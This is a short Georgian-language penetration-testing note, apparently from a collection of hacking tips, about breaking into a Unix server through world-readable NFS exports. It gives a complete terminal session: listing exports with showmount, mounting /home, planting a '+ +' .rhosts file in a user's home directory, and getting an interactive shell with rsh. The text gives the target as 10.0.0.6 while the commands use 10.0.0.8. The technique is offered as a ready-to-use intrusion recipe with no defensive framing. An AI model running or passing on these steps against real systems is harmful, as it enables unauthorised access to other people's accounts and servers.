 # NFS საჯარო პაპკების მეშვეობით სერვერში შეხწევა

თუ mountd სერვისი გაშვებულია, შეგიძლია იუნიქსის ბრძანება showmount-ი გამოიყენო რომ დადგინო ექსპორტირებული პაპკების სია. ამ პაპკებში მდებარე მონაცემების ნახვა შეგიძლია mount ბრძანების და სხვა NFS კლიენტის ხელსაწყოების მეშვეობით. 

მაგალითი: ვიყენებ showmount-ს სერვერის წინააღმდეგ რომელიცაა 10.0.0.6 და .rhost ფაილს ვქმნი მომხმარებლის home-ში, რომ კავშირის დამყარების პრივილეგია მოვიპოვო.

```
# showmount -e 10.0.0.8

Export list for 10.0.0.8:

/home       (everyone)
/usr/local  files.justasite.com
/disk0      10.0.0.10,10.0.0.11

# mount 10.0.0.8:/home /mnt
# cd /mnt
# ls -la

total 44

drwxr-x---  17 root      root    512 Jun 26 09:59 .
drwxr-xr-x   9 root      root    512 Oct 12 03:25 ..
drwx------   4 laura     users   512 Sep 20  2009 laura
drwxr-x---   4 john      users   512 Mar 12  2008 john
drwx------   3 rick      users   512 Nov 20  2007 rick
drwx--x--x   8 james     users  1024 Oct 31 13:15 james

# cd james
# echo + + > .rhosts
# cd /
# umount /mnt
# rsh -l james 10.0.0.8 csh -i

Warning: no access to tty; thus no job control in this shell...

laboratory%
```
